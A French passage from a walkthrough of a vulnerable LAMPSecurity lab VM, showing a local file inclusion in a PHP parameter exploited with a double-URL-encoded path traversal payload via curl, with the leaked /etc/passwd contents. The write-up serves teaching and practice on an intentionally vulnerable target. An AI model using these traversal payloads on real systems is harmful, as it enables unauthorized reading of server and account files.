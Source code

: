 Une [inclusion de fichier local](https://www.commentcamarche.net/contents/61-attaques-par-manipulation-d-url) (_remote file inclusion_ en anglais) semble possible via ce fichier PHP et son paramètre ```action```. Le but du jeu consiste à lire le contenu de fichiers stockés sur le serveur, autres que ceux initialement prévus dans le schéma de navigation du site. Rien n'empêche d'inclure un autre fichier présent sur le serveur, puisqu'aucun contrôle n'est implémenté sur la valeur du paramètre ```file```.

Exemple avec le fichier ```/etc/passwd``` qui contient la liste des utilisateurs du système. Il faut ruser et utiliser un [double encodage](https://www.owasp.org/index.php/Double_Encoding) pour y arriver !

```console
root@blinils:~# curl --cookie "PHPSESSID=knk91bfkgkv5q51gt203kn6fe6; user=test" \
"http://192.168.56.103/read&file=../../../../../../../etc/passwd"
Can't find requested include: inc/etc/passwd.php

root@blinils:~# curl --cookie "PHPSESSID=knk91bfkgkv5q51gt203kn6fe6; user=test" \
"http://192.168.56.103/read&file=%252e%252e%252f%252e%252e%252f%252e%252e%252f%252e%252e%252fetc%252fpasswd"
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
--snip--
brian:x:501:501::/home/brian:/bin/bash
john:x:502:502::/home/john:/bin/bash
alice:x:503:503::/home/alice:/bin/bash
ruby:x:504:504::/home/ruby:/bin/bash
leon:x:505:505::/home/leon:/bin/bash
julia:x:506:506::/home/julia:/bin/bash
michael:x:507:507::/home/michael:/bin/bash
bruce:x:508:508::/home/bruce:/bin/bash
neil:x:509:509::/home/neil:/bin/bash
charles:x:510:510::/home/charles:/bin/bash
dovecot:x:97:97:Dovecot IMAP server:/usr/libexec/dovecot:/sbin/nologin
dovenull:x:498:499:Dovecot's unauthorized user:/usr/libexec/dovecot:/sbin/nologin
mailnull:x:47:47::/var/spool/mqueue:/sbin/nologin
smmsp:x:51:51::/var/spool/mqueue:/sbin/nologin
webalizer:x:67:67:Webalizer:/var/www/usage:/sbin/nologin
```

Et voilà qui conclut ce _walkthrough_, merci à [madirish2600](https://www.vulnhub.com/author/madirish2600,75/) pour avoir créé ces VM LAMPSecurity vulnérables !
